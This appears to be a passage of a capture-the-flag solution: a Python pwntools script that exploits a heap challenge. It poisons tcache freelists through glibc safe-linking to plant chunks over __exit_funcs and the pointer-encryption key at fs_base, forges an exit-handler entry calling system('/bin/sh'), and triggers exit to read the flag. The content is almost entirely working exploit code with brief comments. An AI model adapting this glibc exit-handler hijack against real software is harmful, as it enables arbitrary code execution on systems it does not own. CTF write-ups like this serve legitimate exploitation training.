 ```python
# Allocate mem at __exit_funcs so we can overwrite the pointer with our own heap chunk
delete(11)
delete(14)
update(11, b"AAAAAAAACCCCCCCC")
delete(11)
chunk_pos = deobfuscate(u64(read(11)[:8]))
update(11, p64(obfuscate(__exit_funcs-0x10, chunk_pos)))
create(15, b"") # freed later
create(16, b"") # __exit_funcs chunk (offset -0x10 so we dont corrupt)

# Allocate chunk in fs_base to get encryption key
delete(8)
delete(15)
update(8, b"AAAAAAAADDDD")
delete(8)
chunk_pos = deobfuscate(u64(read(8)[:8]))
update(8, p64(obfuscate(fs_base+0x30, chunk_pos)))
create(18, b"")
create(19, b"")

key = u64(read(19)[:8])
log.success(f"ptr encryption key : {hex(key)}")


# Write fake exit_function entry to chunk 18 since we're not using it for anything
# and we know its base address due to the earlier heap base leak.
###########  next   | count  | type (cxa) | addr (system@libc)                | arg                                | not used
onexit_fun = p64(0) + p64(1) + p64(4)     + encrypt(libc.sym["system"], key)  + p64(next(libc.search(b"/bin/sh"))) + p64(0)
update(18, onexit_fun)
CHUNK_EIGHTEEN_ADDR = heap_base + 0x2e0
log.success(f"wrote custom exit_functions @ {hex(CHUNK_EIGHTEEN_ADDR)}")


# Overwrite __exit_funcs (need to rewrite but should work, check in gdb)
update(16, read(16)[:0x10] + p64(CHUNK_EIGHTEEN_ADDR))


# trigger payload (entering 0 calls exit) and get flag
io.sendlineafter(b"> ", b"0")
io.sendline(b"cat flag.txt")
try:
    log.success(io.recvuntil(b"}").decode())
    io.close()
except:
    exit(1)
```

# Starter Template
